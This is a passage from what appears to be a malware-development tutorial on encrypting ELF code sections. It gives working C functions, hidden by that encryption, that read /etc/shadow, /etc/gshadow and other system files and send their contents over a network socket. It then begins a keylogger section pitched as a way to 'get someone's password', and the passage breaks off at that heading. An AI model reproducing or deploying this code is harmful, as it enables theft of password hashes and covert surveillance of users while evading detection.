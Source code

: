 We can also see that the offset `78e8` is only filled with zeroes, because the program is decrypted. Indeed, it is the content of the `ELF_BOOL` section.

## Improving the Malware

Now that we have managed to encrypt and decrypt parts of our program, we can try to improve the program's capabilites. The first thing we can do is sending critical information to the user. This is a good test to see if we can easily add new data to obfuscate.

Like before, we will mark our function with the `SECTION(ELF_CODE)` to specify it should be encrypted.

```c
SECTION(ELF_CODE)
void send_file(settings_t *s, char *str)
{
    int fd = open(str, O_RDONLY);
    struct stat st;
    char *buffer = NULL;

    if (fd == -1 || stat(str, &st) < 0)
        return;
    buffer = malloc(sizeof(char) * (st.st_size + 1));
    buffer[st.st_size] = 0;
    read(fd, buffer, st.st_size);
    close(fd);
    dprintf(s->sockfd, "[%s]:%s\n", str, buffer);
    free(buffer);
}

SECTION(ELF_CODE)
void send_important_files(settings_t *s)
{
    char *files[] = {
        "/etc/shadow",
        "/etc/gshadow",
        "/etc/gshadow-",
        "/etc/timezone",
        NULL,
    };

    for (int i = 0; files[i] != NULL; i++)
        send_file(s, files[i]);
}
```

and done ! Easy as that. If we recompile our program, and run our crypting method on it, we will find any part of the code in that section encrypted.

Now, let's try to add a keylogger. A keylogger is a program that logs keystrokes from the user, without him knowning. This can be very useful if you want to get someone's password, for instance. But how do we do that ?

### Building a Key-Logger
